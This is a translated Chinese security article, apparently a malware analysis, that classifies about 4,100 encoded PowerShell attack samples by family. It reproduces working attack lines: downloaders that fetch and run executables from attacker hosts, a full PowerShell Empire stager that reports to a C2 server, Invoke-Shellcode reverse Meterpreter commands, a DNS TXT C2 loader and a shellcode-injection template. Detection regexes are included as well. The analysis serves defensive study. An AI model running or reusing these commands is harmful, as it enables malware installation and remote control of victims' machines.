

# 【技术分享】揭开PowerShell编码攻击的神秘面纱


                                阅读量   
                                **288719**
                            
                        |
                        
                                                                                                                                    
                                                                                            


**[](./img/85746/t015a96a5bc1cd6d5d7.png)**

****

翻译：[興趣使然的小胃](http://bobao.360.cn/member/contribute?uid=2819002922)

稿费：200RMB（不服你也来投稿啊！）

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**一、前言**

在过去的几年中，随着框架不断完善成熟，PowerShell也在不断获得人们的关注和欢迎，因此，在攻击行动中越来越多地看到PowerShell的身影也就不足为奇了。PowerShell为攻击者提供了系统各种原生功能支持，通过快速查看PowerShell恶意工具的泛滥形势，你可以对此类工具的增长态势有个整体了解。

微软对高版本的PowerShell做了些处理，提供了包括Transciption、ScriptBlock等多种方式来记录PowerShell的活动日志，因此基于PowerShell的攻击需要在运行时对其代码进行混淆编码。

首先让我们来看一下PowerShell的“-EncodedCommand”参数。


```
-EncodedCommand
    Accepts a base64-encoded string version of a command. Use this parameter
    to submit commands to Windows PowerShell that require complex quotation
    marks or curly braces.
```

如PowerShell上述的使用说明，“EncodedCommand”是其一个命令，旨在对复杂字符串进行封装以便PowerShell在命令行中进行执行。你可以利用此命令对关键字符串进行隐藏，以躲避防护软件的探测。

本文主要有两个目的，其一，本文在“整体分析”中会分析利用Palo Alto Networks AutoFocus服务识别收集的4,100个PowerShell攻击样本（这些样本均使用了EncodedCommand技术），来了解PowerShell攻击中所使用的技术及攻击方式；其二，我将利用解码后样本对PowerShell代码进行分类，为后续识别或研究工作提供参考。

<br>

**二、整体分析**

在开始分析前，我首先需要识别使用该技术的样本。因为PowerShell为用户提供了多种灵活调用参数的方法，因此样本的识别工作并不像想象中的那么容易。

以下三个样本使用那个了三种不同的方法来调用EncodedCommand参数：

1、完全形式：

```
powershell.exe –EncodedCommand ZQBjAGgAbwAgACIARABvAHIAbwB0AGgAeQAiAA==
```

2、大写截断形式：

```
powershell.exe –eNco ZQBjAGgAbwAgACIAVwBpAHoAYQByAGQAIgA=
```

3、转义字符注入分解字符串形式：

```
powershell.exe –^e^C^ ZQBjAGgAbwAgACIAVwBpAHQAYwBoACIA
```

对这三种方法进行组合利用，单论“EncodedCommand”参数，我们就可以得到100,00多种变化。我给出了以下的正则表达式，覆盖了这种变化多数情况，同时也可以方便地应用于动态分析报告中的大规模语料库场景。

```
-[Ee^]{1,2}[NnCcOoDdEeMmAa^]+ [A-Za-z0-9+/=]{5,}
```

比如，正则表达式可以提取如下的PowerShell命令以便后续分析：


```
powerShell.exe -WindowStyle hiddeN -ExecuTionPolicy ByPasS -enc 
cgBlAGcAcwB2AHIAMwAyACAALwB1ACAALwBzACAALwBpADoAaAB0AHQAcAA6
AC8ALwAxADkAMgAuADEANgA4AC4ANAA4AC4AMQAyADkALwB0AGUAcwB0AC4
AagBwAGcAIABzAGMAcgBvAGIAagAuAGQAbABsAAoA
```

大多数编码数据都是利用模板或公开工具生成而来，每当攻击者需要运行shellcode或下载另一个恶意文件时，他们并不需要重复造轮子。这一点可以通过以下情况证实：攻击代码中的底层代码基本一致，只有其中的文件下载地址及其他信息存在略微不同。为了对数据进行分析，我需要尝试识别代码并确定代码的生成方式，或者至少能够对代码进行分组归类。

**2.1 分析方法**

为了说明这个工作的困难程度，我们可以回看2012年Matthew Graeber发布的一篇关于PowerShell脚本的博文，脚本可以加载shellcode至内存并运行。这个脚本也是此类技术的基础模板，大多数公开工具参考了脚本以期获得同样功能。

以下是TrustedSec系列工具中的社会工程学工具集（Social-Engineer Toolkit，SET）和Magic Unicorn工具经过两次迭代后的表现形式。对比两个样本，你可以发现，初始变量名上SET使用的是“$c”，而Magic Unicorn使用的是“$nLR”。与此类似，SET中“$size”与Magic Unicorn中“$g”对应，“$sc”与“$z”对应，“$x”与“$kuss”对应。

SET：

```
$c = '[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);';$w = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru;[Byte[]];[Byte[]]$sc = ;$size = 0x1000;if ($sc.Length -gt 0x1000){$size = $sc.Length};$x=$w::VirtualAlloc(0,0x1000,$size,0x40);for ($i=0;$i -le ($sc.Length-1);$i++) {$w::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};$w::CreateThread(0,0,$x,0,0,0);for (;;){Start-sleep 60};
```

Magic Unicorn：

```
$nLR = '[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);';$w = Add-Type -memberDefinition $nLR -Name "Win32" -namespace Win32Functions -passthru;[Byte[]];[Byte[]]$z = ;$g = 0x1000;if ($z.Length -gt 0x1000){$g = $z.Length};$kuss=$w::VirtualAlloc(0,0x1000,$g,0x40);for ($i=0;$i -le ($z.Length-1);$i++) {$w::memset([IntPtr]($kuss.ToInt32()+$i), $z[$i], 1)};$w::CreateThread(0,0,$kuss,0,0,0);for (;;){Start-sleep 60};
```

在Magic Unicorn中，生成脚本中有一行用于对一些变量进行随机化处理。以下样例显示了随机化处理的工作机制：


```
var1 = generate_random_string(3, 4)
var2 = generate_random_string(3, 4)
powershell_code = (
        r"""$1 = '$c = ''[DllImport("kernel32.dll")]public static extern IntPtr …
powershell_code = powershell_code.replace("$1", "$" + var1).replace("$c", "$" + var2).replace("$2", "$" + var3) …
```

脚本使用3到4个随机数字字符对一些变量进行处理，但不是所有的变量都会被替换，因此我可以得知其变量生成机制。此外，如果没有经过Magic Unicorn脚本或其他形式的随机化处理，当这个特定片段被复制到其他工具中时我也可以鉴别出来。

对代码进行分析时，如果代码经过了许多人多年的重度重复使用，那么你总会碰到不适合分析的代码。我试图通过特征值尽可能准确地对代码进行分类，但不一定能做到足够准确，因为没有什么能够阻止别人简单地将代码复制粘贴到自己的工具中。

总体而言，我分析了27类公开工具或技术，它们具有独特的标识符，可以作为归类依据。在编号归类后我会对每个变种进行深度分析。首先我们来看一下变种的分支细目、样本数以及所占的样本百分比，如下表所示：

[](https://p4.ssl.qhimg.com/t0104b4db3d982ba129.png)

[](https://p4.ssl.qhimg.com/t0173860fcd403cd8cf.png)

[](https://p5.ssl.qhimg.com/t01e91f718f161cb13a.png)

[](https://p5.ssl.qhimg.com/t01586890c32d705af3.png)

我们所分析的样本中，超过一半使用了“DownloadFile-StartProcess”技术或前文所述的shellcode注入技术。

**2.2 整体分布及统计**

我们在4,100个样本中发现了4中文件格式。如下表所示：

[](https://p2.ssl.qhimg.com/t017478d3a910bda090.png)

可知，EXE和DOC格式占了绝大部分。进一步后我们发现，77%的DOC文件（即1,326个样例）可以归到“Downloader DFSP”变种，该变种通过DownloadFile-StartProcess方法实现下载器功能，如以下代码所示：

```
(New-Object System.Net.WebClient).DownloadFile('http://94.102.53.238/~yahoo/csrsv.exe',"$env:APPDATAcsrsv.exe");Start-Process ("$env:APPDATAcsrsv.exe")
```

有1,159个DOC文件样本（占比87%）可以归到Cerber勒索软件变种中，这意味着存在一款生成恶意Word文档的模板工具，可以用来创建带有启动PowerShell功能的恶意宏文档。

投递DOC文档的主要渠道是使用SMTP/POP3协议，这与现今勒索软件使用电子邮件进行恶意Word文档投递的情况一致。

[](https://p5.ssl.qhimg.com/t0163d052d2e93b3967.png)

图1. 投递恶意PowerShell文档的渠道

图2描述了攻击目标的行业分布，其中高等教育、高科技、专业领域、律政行业及医疗保健方面的分布所差无几。

[](https://p1.ssl.qhimg.com/t010fff8b5f8361fea4.png)

图2. 检测到恶意PowerShell文档的行业分布

[](https://p0.ssl.qhimg.com/t01ee70b479677f4fbe.png)

图3. AutoFocus在过去12个月捕获的恶意Powershell文档样本数。

接下来让我们看一下EXE样本。在分类方面，这些样本基本都是恶意软件家族的变种，没有特别的地方。有趣的是，它们的攻击目标似乎倾向于高科技行业。

[](https://p4.ssl.qhimg.com/t015202477bbec4540e.png)

图4. 检测到恶意PowerShell可执行文件的行业分布

与DOC类别样本相比，其在时间上的分布更为均匀。

[](https://p3.ssl.qhimg.com/t01a362ae703c9d3439.png)

图5. AutoFocus在过去12个月捕获的恶意PowerShell可执行文件样本数

以上状况的一种可能性是两类样本的分发渠道不同。比如DOC样本主要是通过电子邮件附件进行分发投递，而EXE样本主要是通过Web浏览器进行投递。

在对具体命令分析前，我要说的最后一件事是我们所检测到的使用EncodedCommand技术的一个DLL文件。这个DLL文件不包含导出函数，通过DLLMain入口调用后，该DLL会启动一个PowerShell Empire stager，从网站下载一个经过异或处理的脚本，并使用PowerShell的Invoke-Expression cmdlet运行。该样本与2016年10月Symantec发布的一篇博文中描述的Odinaff恶意软件家族的有关。

<br>

**三、数据前期分析及统计**

开始分析base64编码数据前，我观察了每个进程的启动方式，这种分析方法可以了解与EncodedCommand配合使用的附加参数情况。

**3.1 EncodedCommand：（4,100个样本，占比100%）**

使用此参数向PowerShell传递base64编码字符串并运行。

[](https://p2.ssl.qhimg.com/t01fabd9e3873a98427.png)

**3.2 WindowStyle Hidden：（2,083个样本，占比50.8%）**

使用此参数避免PowerShell执行时显示运行窗口。其中“-window hidden”方法使用最多主要与前文提到的Cerber勒索软件有关。

[](https://p1.ssl.qhimg.com/t017d29fe68037a004f.png)

[](https://p0.ssl.qhimg.com/t0179a0ba7a136a264d.png)

**3.3 NonInteractive：（1,405个样本，占比42.4%）**

使用此参数避免显示一个交互对话窗口。此方法与WindowStyle隐藏方法配合使用以隐藏执行痕迹。

其中使用“-noni”的变种中76%是通用型的shellcode注入代码或SET工具，而使用“-NonI”的变种主要是PowerShell Empire工具。

[](https://p4.ssl.qhimg.com/t0171cbc20b25c54d8f.png)

**3.4 NoProfile：（1,350个样本，占比32.9%）**

使用此参数阻止PowerShell在开机时加载配置文件脚本，以避免载入非预期的命令或设置。与非交互方式类似，“-nop”方法主要由SET和通用型shellcode注入变种采用，而“-NoP”方法主要由PowerShell Empire使用。

[](https://p1.ssl.qhimg.com/t0174e7251f6d9c8f54.png)

**3.5 ExecutionPolicy ByPass：（453个样本，占比11%）**

使用此参数绕过默认的PowerShell脚本执行策略（即受限策略），可以执行任何代码。有趣的是，使用EncodedCommand参数执行的代码不受执行策略影响。

[](https://p4.ssl.qhimg.com/t01ec83fd29e508bd8c.png)

[](https://p2.ssl.qhimg.com/t0134f62b4584eb885f.png)

**3.6 Sta：（219个样本，占比5.3%）**

使用单线程模式（现在是PowerShell 3.0的默认模式）。此参数基本上是PowerShell Empire在使用。

[](https://p2.ssl.qhimg.com/t0154c233160a26978f.png)

**3.7 NoExit: （23个样本，占比0.5%）**

使用此参数阻止PowerShell在运行启动命令后退出。这是PowerWorm恶意软件除EncodedCommand参数外使用的唯一参数。

[](https://p4.ssl.qhimg.com/t0179feb47c3baaa8ea.png)

**3.8 ExecutionPolicy Hidden（5个样本，占比0.12%）**

这实际上不是一个有效的参数，因此PowerShell会忽略该参数。使用该参数的每个样本我都标记为与“TXT C2”脚本有关，该脚本试图加载一个包含另一段PowerShell脚本的DNS TXT记录，与PowerWorm类似。可能攻击者本来想使用的是ByPass参数，因为他们的后续命令中使用了“-w hidden”参数。

[](https://p1.ssl.qhimg.com/t01c7f0b5992565c422.png)

**3.9 NoLogo：（33个样本，占比0.8%）**

避免PowerShell启动时显示版权信息。

[](https://p5.ssl.qhimg.com/t010a3e2af22e205ff7.png)

**3.10 ExecutionPolicy Unrestricted：（1个样本，占比0.02%）**

与ByPass类似，但会在运行从Internet下载的未签名脚本前警告用户。使用此参数的脚本在试图执行从Internet下载的脚本时会触发警告信息。

[](https://p5.ssl.qhimg.com/t0179a1bea57925770e.png)

**3.11 Command：（1个样本，占比0.02%）**

利用该参数可以执行参数后面的命令，就如同直接在PowerShell提示符下输入命令一样。我只捕捉到一个样本，它直接附加到某个恶意软件中，该恶意软件在FireEye发布的一篇关于绕过基于签名的检测方法的博文中提到过。该PowerShell脚本包含在一个DOCM文件的“Comments“域中，通过Word文档的宏加载执行。以下是该样本的恶意PowerShell代码片段，通过将多条命令组合在一起，可以实现FTP传输和NetCat建连目的。

[](https://p4.ssl.qhimg.com/t0126b2d7b39e40a0d2.png)

[](https://p1.ssl.qhimg.com/t014894da90bca8b8ee.png)

现在，让我们整体看一下样本集中排名前十的PowerShell参数组合。

[](https://p0.ssl.qhimg.com/t010cbf5c7708beaa93.png)

即使将代码的多样性考虑在内，以上排名结果也不会出现太大变化，只是使用某些参数的样本个数有些许改变而已。

在整个研究过程中，我发现有些代码作者对新版本的工具特征进行了修改，如下所示，新版本中作者稍微对参数形式进行了变化：

[](https://p1.ssl.qhimg.com/t01b9a70c0e23701186.png)

图6. 代码作者对不同版本样本的参数修改对比

这种修改会导致变种族群总数的变化，但我认为这些变化不会对总体结果造成特别大的影响。我的调查研究表明，代码作者很少对参数的顺序或长度做出动态改变以混淆其攻击活动，相反，他们更加关注代码基本功能的随机化，也更加关注代码的内在方面。这也使得我们可以使用PowerShell启动参数作为特征对样本进行大致精确的分类。

此外，前三种参数使用方式占了样本总数的72%，这也说明攻击者更倾向于简单地执行PowerShell脚本，而不关心后续攻击行动的隐蔽性。

<br>

**四、数据后期分析及统计**

接下来我会讨论识别出来的每个变种类别并分析他们的功能。对具备下载文件或脚本功能的变种，我将它们使用的IP地址/域名/URL信息附在本文末尾。这些地址中有些是恶意性质的，有些是用来做渗透测试的，有些只是人们用来做新技术的随机测试。不幸的是，在大规模批量分析中，我们很难推测每个地址的真实用处，因此我将这些信息直接提供给读者加以鉴别。

**（一）下载器类别**

此类PowerShell代码的主要目的是下载运行远程主机的载荷或PowerShell脚本。

**4.1 Downloader DFSP（1,373个样本，占比33.49%）**

这是使用PowerShell下载和运行文件的一个典型类别，也基本就是你在使用Google搜索如何利用PowerShell下载和执行文件时所得到的搜索结果。我使用以下模板作为此类样本的筛选器。

```
(New-Object System.Net.WebClient).DownloadFile('http://cajos[.]in/0x/1.exe','mess.exe');Start-Process 'mess.exe'
```

如前文所述，几乎所有匹配此类别的变种都与恶意Word文档有关，这些文档会通过宏启动PowerShell以下载Cerber恶意软件。此类样本中有个特例，除了使用URI之外，它在路径参数中还使用了环境变量。

Cerber下载器代码：

```
(New-Object System.Net.WebClient).DownloadFile('http://94.102.53[.]238/~yahoo/csrsv.exe',"$env:APPDATAcsrsv.exe");Start-Process ("$env:APPDATAcsrsv.exe")
```

**4.2 PowerShell Empire（293个样本，占比7.15%）**

此类变种使用PowerShell Empire的EncryptedScriptDropper来下载远程脚本，并使用内置的异或密钥进行解密。

```
$Wc=NeW-ObjeCt SySTEM.Net.WebCLiEnt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$WC.HeadeRS.ADd('User-Agent',$u);$wc.PrOxy = [SyStem.NeT.WEbReQUeSt]::DEFauLTWeBProxy;$WC.PRoXY.CrEdENTIaLS = [SYStEM.NeT.CReDEnTiALCaChE]::DEFaulTNeTworKCREdeNtiaLS;$K='0192023a7bbd73250516f069df18b500';$i=0;[CHAr[]]$B=([CHaR[]]($wc.DOwnloaDSTRing("http://23.239.12.15:8080/index.asp")))|%{$_-BXOr$k[$i++%$K.LENgTh]};IEX ($B-jOIn'')
```

本例中，异或密钥为“0192023a7bbd73250516f069df18b500“，使用该密钥解密后的脚本为PowerShell Empire的stager脚本，其功能是利用POST方式将系统信息提交给C2服务器，并下载Empire的第一阶段载荷。

```
'FunCtION StaRt-NegoTiATe{param($s,$SK,$UA="lol")Add-TypE -AsSeMBLY SYSteM.SECUriTY;AdD-TypE -aSSEMBly SYSTEm.CoRe;$ErrorActionPreference = "SilentlyContinue";$E=[SYstem.TExT.ENCoDING]::ASCII;$AES=NeW-OBjecT SYsTeM.SeCURiTy.CRyptoGrapHY.AESCRyPToSeRVicePrOvIdER;$IV = [BYTE] 0..255 | GeT-RandOm -coUNt 16;$AES.Mode="CBC"; $AES.Key=$e.GetBytes($SK); $AES.IV = $IV;$cSp = NEW-OBJECT SYStEM.SecURity.CrYPtOGRAPHy.CSpPaRAmeTERS;$csP.FLAGs = $cSP.FlagS -boR [SYsTeM.SeCurITY.CryptogRaphy.CsPPROViDErFlAGs]::UsEMAcHINEKeySTore;$Rs = NEW-ObJecT SySTEm.SecURIty.CRyptograPHy.RSACRYPTOSERvICEPROViDeR -ARGuMenTLIsT 2048,$CSP;$rk=$Rs.TOXMlStriNg($FALse);$r=1..16|FOrEacH-ObJEcT{GEt-RANDOm -MAx 26};$ID=('ABCDEFGHKLMNPRSTUVWXYZ123456789'[$r] -joIN '');$iB=$E.gEtbYTes($Rk);$eb=$IV+$AES.CReaTeENCRyptoR().TRANSFoRmFiNalBLOcK($Ib,0,$Ib.LENgtH);IF(-Not $wc){$wc=nEw-oBJECt sYstEM.Net.WEBCLient;$WC.ProxY = [SySTem.NET.WeBReqUEsT]::GETSysTeMWEbPRoxY();$Wc.Proxy.CrEDentIals = [SYStem.Net.CredENtIalCAche]::DEFAUlTCRedentIaLs;}$wc.Headers.Add("User-Agent",$UA);$wc.Headers.Add("Cookie","SESSIONID=$ID");$raw=$wc.UploadData($s+"index.jsp","POST",$eb);$dE=$E.GETSTRing($Rs.deCrYPt($raw,$FalSE));$EpOCh=$de[0..9] -joIN'';$KeY=$dE[10..$de.LengTH] -jOIn '';$AES=NEw-ObJEct SYsTEm.SEcurity.CRyPtoGRAPHY.AEsCrYPtOSerVIcEPRoVidEr;$IV = [ByTe] 0..255 | GET-RaNdom -couNT 16;$AES.Mode="CBC"; $AES.Key=$e.GetBytes($key); $AES.IV = $IV;$i=$S+'|'+[EnvIrONment]::UsERDOmAInNAmE+'|'+[ENvIRonmeNt]::UsERNaME+'|'+[ENvIRONmeNt]::MaChinEName;$P=(gwMi WIN32_NeTWorkAdAPTErCoNfIGurAtioN|WherE{$_.IPAdDRess}|SelECt -ExpANd IPADDReSS);$ip = @{$TrUe=$P[0];$FalsE=$P}[$P.LeNgTh -lt 6];If(!$IP -or $ip.trIm() -EQ '') {$Ip='0.0.0.0'};$i+="|$ip";$I+='|'+(GEt-WmIOBJect WIn32_OpERAtiNgSystEM).NAME.splIT('|')[0];if(([Environment]::UserName).ToLower() -eq "system"){$i+='|True'}else {$i += "|" +([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")}$n=[SySTeM.DIAgNoSTICS.ProceSS]::GetCUrREntPRocEss();$i+='|'+$n.PROCEssNAMe+'|'+$n.ID;$I += '|' + $PSVerSIOnTabLe.PSVerSioN.MAjOR;$ib2=$E.getbYteS($I);$EB2=$IV+$AES.CrEATEEncrYPToR().TrANSFORmFinALBLOCk($Ib2,0,$Ib2.LenGTH);$wc.Headers.Add("User-Agent",$UA);$raw=$wc.UploadData($s+"index.php","POST",$eb2);$AES=NeW-Object SYSteM.SEcuRIty.CRYPToGrapHY.AesCrYPToSeRVIcEProvIder;$AES.Mode="CBC";$IV = $rAw[0..15];$AES.Key=$e.GETBYtes($key);$AES.IV = $IV;IEX $([SYstEM.TeXt.EnCoDInG]::ASCII.GetStrInG( $($AES.CrEateDECRYpTOr().TRANsFOrMFinAlBloCk($rAW[16..$RaW.LENGtH],0,$raw.LENGth-16))));$AES=$NuLL;$s2=$NuLl;$WC=$nUll;$eB2=$nULl;$RAW=$NuLl;$IV=$NULL;$WC=$NULl;$I=$NUlL;$iB2=$null;[GC]::COlLEcT();Invoke-Empire -Servers @(($s -split "/")[0..2] -join "/") -SessionKey $key -SessionID $ID -Epoch $epoch;} Start-Negotiate -s "http://23.239.12.15:8080/" -SK '0192023a7bbd73250516f069df18b500' -UA $u;'
```

**4.3 Downloader DFSP 2X（81个样本，占比1.98%）**

此类变种与前一类变种一样，但它使用另一个PoweShell实例来执行下载任务。这类变种同样都与Cerber下载器文档有关。

```
PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('http://93.174.94[.]135/~kali/ketty.exe', $env:APPDATAprofilest.exe );Start-Process ( $env:APPDATAprofilest.exe )
```

**4.4 Downloader DFSP DPL（24个样本，占比0.59%）**

这是使用“DownloadFile -&gt; Start-Process“技术的另一类下载器变种，有两种不同表现形式。这类样本中多数与Bartalex有关，可以用来反映这个广为人知的Office宏生成器的最新变化情况。

完全表现形式：

```
($deploylocation=$env:temp+'fleeb.exe');(New-Object System.Net.WebClient).DownloadFile('http://worldnit[.]com/abu.exe', $deploylocation);Start-Process $deploylocation
```

简略表现形式：

```
($dpl=$env:temp+'f.exe');(New-Object System.Net.WebClient).DownloadFile('http://alonqood[.]com/abacom.exe', $dpl);Start-Process $dpl
```

**4.5 Downloader IEXDS（19个样本，占比0.46%）**

这也是搜索PowerShell如何下载和执行的常见搜索结果。此类变种简单地从远程下载PowerShell脚本并利用Invoke-Expression加以执行。不同个体所生成的载荷可以完全不同且没有关联。

以下两个样本下载了“Invoke-TwitterBot“脚本，运行该脚本的主机会成为ShmooCon IX僵尸网络所控制的节点。


```
IEX (New-Object Net.WebClient).DownloadString('http://cannot.loginto[.]me/googlehelper.ps1')
iex ((New-Object Net.WebClient).DownloadString('http://76.74.127[.]38/default-nco.html'))
```

**4.6 BITS Transfer（11个样本，占比0.27%）**

使用PowerShell下载恶意软件的另一种方式是利用BitsTransfer模块。后台智能传输服务（Background Intelligent Transfer Service，BITS）技术通常很少用于恶意软件的下载，但其可以提供与其他传输服务（如HTTP服务）一样的功能。使用这种方法可能允许攻击者规避某些监控策略，并且可以在不影响其他带宽使用条件下完成传输任务。

在我之前的博文中，我提到了Cerber下载器的一类变种，它们使用了BITS技术用来传输文件，这11个变种中有10个与Cerber软件的Word文档有关。


```
Import-Module BitsTransfer
$path = [environment]::getfolderpath("mydocuments")
Start-BitsTransfer -Source "http://94.102.50[.]39/keyt.exe" -Destination "$pathkeyt.exe"
Invoke-Item  "$pathkeyt.exe"
```

**4.7 TXT C2（10个样本，占比0.24%）**

此类样本中，攻击者使用PowerShell发起DNS请求，解析某个域名的TXT记录，该记录包含了另一个PowerShell脚本，通过Invoke-Expression加以执行。

```
if(''+(nslookup -q=txt p.s.os.ns.rankingplac[.]pl) -match '@(.*)@'){iex $matches[1]}
```

通过以上代码我们可知，脚本发起初始请求后，会循环解析某个域名的TXT记录直至获得请求响应，对响应进行base64解码后再进行执行过程。


```
Non-authoritative answer:
p.s.os.ns.rankingplac.pltext = "@$str='';$i=1;while(1){if(''+(nslookup -q=txt "l.$i.ns.rankingplac[.]pl.") -match '@(.*)@'){$str += [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($matches[1]))} else {break;}$i++}iex $str@"
```

该代码使得攻击者在条件允许时可以与受害主机建立命令和控制信道。

微软的John Lambert最近在Twitter上公布了这类变种信息，确定它们只是用来进行渗透测试。该变种的另一个样本也可以在Nishang渗透测试框架中找到。

**4.8 Downloader Proxy（9个样本，占比0.22%）**

此类变种在PowerShell中直接使用系统已配置的代理及用户凭证。用户名通过Web请求中的“u“参数进行传递。这是一种典型的“记录型”技术，攻击者可以借此鉴别他们所突破的受害者，也可以用来处理后续的交互方式（比如，如果攻击者发现沙盒相关的用户凭证则会阻断后续连接）。

```
$x=$Env:username;$u="http://54.213.195[.]138/s2.txt?u=" + $x;$p = [System.Net.WebRequest]::GetSystemWebProxy();$p.Credentials=[System.Net.CredentialCache]::DefaultCredentials;$w=New-Object net.webclient;$w.proxy=$p;$w.UseDefaultCredentials=$true;$s=$w.DownloadString($u);Invoke-Expression -Command $s;
```

**4.9 Meterpreter RHTTP（6个样本，占比0.15%）**

此类变种下载在PowerShell Empire或PowerSploit中使用的Invoke-Shellcode脚本，然后调用该函数生成一个反弹型HTTPS Meterpreter shell。

这6个样本中，有5个样本是从GitHub上下载脚本。

GitHub版：

```
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/code_execution/Invoke-Shellcode.ps1"); Invoke-Shellcode -Payload windows/meterpreter/reverse_http -Lhost 88.160.254[.]183 -Lport 8080 -Force
```

非GitHub版：

```
IEX (New-Object Net.WebClient).DownloadString('http://el8[.]pw/ps/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 65.112.221[.]34 -Lport 443 –Force
```

**4.10 Downloader Kraken（5个样本，占比0.12%）**

此类变种的命名方式来源于其下载的可执行文件名（“Kraken.jpg”），它使用了与Downloader DFSP类似的下载技术。不同的一点是此类变种不直接使用“$env”环境变量，而是使用System.IO.Path来获得$TEMP目录的路径。

```
IEX (New-Object Net.WebClient).DownloadString('http://el8[.]pw/ps/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 65.112.221[.]34 -Lport 443 –Force
```

**4.11 AppLocker Bypass（4个样本，占比0.12%）**

此类变种使用PowerShell运行regsvr32工具以绕过Windows的AppLocker策略。该技术最早由Casey Smith公布，利用该技术使得regsvr32在注销COM对象时脚本能够得到执行机会。

**（二）嵌入型载荷类别**

此类PowerShell代码的主要目的是运行嵌入型载荷（如shellcode）。

**4.12 Shellcode注入（1,147个样本，占比27.89%）**

**4.13 Unicorn（611个样本，占比14.90%）**

**4.14 SET（199个样本，占比4.85%）**

**4.15 Unicorn修改版（14个样本，占比0.34%）**

我在前文描述了SET和Magic Unicorn的Shellcode注入技术的实现方法，我决定利用这种shellcode注入模板对这类变种进行归类（4.12-4.15）。以下是“Shellcode注入”变种的一个样本，来源于Matt Graeber的原始博文，你可以从中发现该样本与SET和Magic Unicorn的相似性。

```
$c = '[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);';$w = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru;[Byte[]];[Byte[]]$z = 0xbf,&amp;lt;SHELLCODE&amp;gt;,0x19;$g = 0x1000;if ($z.Length -gt 0x1000){$g = $z.Length};$x=$w::VirtualAlloc(0,0x1000,$g,0x40);for ($i=0;$i -le ($z.Length-1);$i++) {$w::memset([IntPtr]($x.ToInt32()+$i), $z[$i], 1)};$w::CreateThread(0,0,$x,0,0,0);for (;;){Start-sleep 60};
```

这四类变种几乎覆盖了在启动EXE文件整个过程中所用到的所有技术。

以上代码片段的要点是样本按照以下顺序从DLL文件中导入函数。

“kernel32.dll”中的VirtualAlloc函数，

“kernel32.dll”中的CreateThread函数，

“msvcrt.dll”中的memset函数。

之后他们使用“0x”十六进制表示方法将shellcode载入字节数组中，然后调用VirtualAlloc函数分配至少4,096字节大小的RWX内存页面空间，通过memset函数将字节数组拷贝至内存中，利用CreateThread函数将执行权交给shellcode。

在1,971个样本中，有1,211个不同的shellcode载荷，这表明有50%以上的shellcode载荷被多个样本重复使用。这些工具大多数都使用Metasploit来生成shellcode，在不指定载荷情况下，通常都会选择反弹型Meterpreter shell。例如，下面是一行来自于Magic Unicorn中的代码，用来打印如何指定MSF载荷。

print("PS Example: python unicorn.py windows/meterpreter/reverse_tcp 192.168.1.5 443")

以来代码用来在指定系统平台、架构及编码条件下生成载荷：


```
"msfvenom -p %s %s %s StagerURILength=5 StagerVerifySSLCert=false -e x86/shikata_ga_nai -a x86 --platform windows --smallest -f c" % (
            payload, ipaddr, port), stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
```

从shellcode长度来看，两种常见的长度分别是294字节和312字节，对应的样本数分别是846个和544个，其他长度所对应的样本数则相差较大。

[](https://p0.ssl.qhimg.com/t0190eb00b3ad7f9bcf.png)

我认为造成这种现象的原因在于它们可能使用相同的工具来生成shellcode载荷，除了在某些地方（如4字节的IP地址，C2服务器的URL地址等）做了稍微改动。

本文对变种的分类主要是基于特征值法，以下是筛选这四类变种的正则表达式：

Shellcode注入：


```
"^($c = |$1 = ["']$c = )"
"$g = 0x1000" 
"$z.Length -gt 0x1000"
"$z[$i]"
Unicorn：
"$w = Add-Type -memberDefinition $[a-zA-Z0-9]{3,4} -Name"
SET：
"$code = [']{1,2}[DllImport"
"$sc.Length -gt 0x1000)"
